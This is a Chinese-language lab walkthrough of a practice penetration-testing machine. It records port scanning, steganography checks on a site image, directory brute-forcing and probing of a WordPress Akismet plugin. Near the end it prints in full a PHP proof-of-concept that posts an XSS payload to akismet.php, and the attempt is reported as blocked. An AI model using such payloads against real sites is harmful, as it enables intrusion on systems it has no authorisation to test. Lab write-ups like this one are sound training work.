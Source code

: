 困难难度但是是oscp的阿吉  嘿嘿加油 
![[Pasted image 20240723170117.png]]
目标靶机如下：
![[Pasted image 20240723170234.png]]
![[Pasted image 20240723170757.png]]
详细信息扫描如下：
![[Pasted image 20240723173026.png]]
提取信息 可能包含一个  CVE 名字叫做 CVE -2017-1001000   
待进一步挖掘 ：







此时80端口如下 ：进入后网页如下：
![[Pasted image 20240723170336.png]]
下载图片到本地 做后续处理 ：
下图为尝试隐写的步骤：
1
采用 exiftool 来尝试获取详细信息 查看是否有隐写数据 
![[Pasted image 20240723173603.png]]
2尝试用foremost -i 提取 信息并且输出到指定目录中区  
![[Pasted image 20240723173900.png]]
3 尝试zsteg独一无二的工具  -a 包含全部信息 ：
![[Pasted image 20240723174642.png]]未发现啥有利用价值的信息 遂 集中在binwalk上 


binwalk -e 解压处理 
![[Pasted image 20240723171059.png]]

进一步分析AC5 如下所示 ：
![[Pasted image 20240723172523.png]]
AC5文件内包含的日志文件待深度挖掘 ，



下一步静待探索 回到网页端 ：
进行目录爆破尝试搜集相关路径？
1gobuster后 
![[Pasted image 20240723175101.png]]
挨个验证  首先是/dev
提示告诉你对网络进行深入挖掘  ，
![[Pasted image 20240723175112.png]]
现在两条路 1  深入扫描挖掘信息 2 继续研究 AC2这个隐藏的日志图片  是否包含信息 

现在尝试第二条 ：
搜索引擎搜索到 可以提取相关lzma信息如下：
在此网页中：https://www.lifewire.com/lzma-file-2621951
![[Pasted image 20240723181038.png]]
现在问题是 如何将 lzma文件从 一堆yaffs里面提取出来
停留在了如何进行取证以及分析上面  



步骤一 ：再次搜寻相关线索 成都
![[Pasted image 20240723202137.png]]
成功搜集相关线索  
摘录有用信息可知：
1 利用 /wordpress/wp-links-opml.php 观察到 版本号如下：

![[Pasted image 20240723202656.png]]2 ![[Pasted image 20240723202952.png]]
这个条信息提示 ：
![[Pasted image 20240723203034.png]]
可以通过点击这里 上传的脚本触发 反弹shell 的目录 现在的问题是如何将自己的反弹shell传上去  
sql注入貌似不可以 

![[Pasted image 20240723204643.png]]
搜索 wordpress akismet 相关信息 搜索到 ：
![[Pasted image 20240723210248.png]]
然后尝试 输入路径为 ：
![[Pasted image 20240723210326.png]]
```
http://192.168.166.116/wordpress/wp- content/plugins/akismet/akismet.php
```
这个路径的信息 可以 发现是存在这个php文件的  随机搜索是否可以利用相关信息做事情呢？上网找相关脚本呢利用 
https://www.exploit-db.com/exploits/37902
尝试使用poc
修改 后 使用 ：修改路径 即可然后最终poc如下 ：
![[Pasted image 20240723212757.png]]

```
#!/usr/bin/php
<?php
#
# Akismet XSS Exploit
#

$target = $argv[1];

$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_URL, "http://$target/wordpress/wp-content/plugins/akismet/akismet.php");
curl_setopt($ch, CURLOPT_USERAGENT, "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)");
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS, "s=%3Cscript%3Ealert('XSS')%3C/script%3E");
curl_setopt($ch, CURLOPT_TIMEOUT, 3);
curl_setopt($ch, CURLOPT_LOW_SPEED_LIMIT, 3);
curl_setopt($ch, CURLOPT_LOW_SPEED_TIME, 3);
curl_setopt($ch, CURLOPT_COOKIEJAR, "/tmp/cookie_$target");
$buf = curl_exec($ch);
curl_close($ch);
unset($ch);

echo $buf;
?>
```
使用后弹窗如下：
查询可知 我们被拦截了 
![[Pasted image 20240723212904.png]]
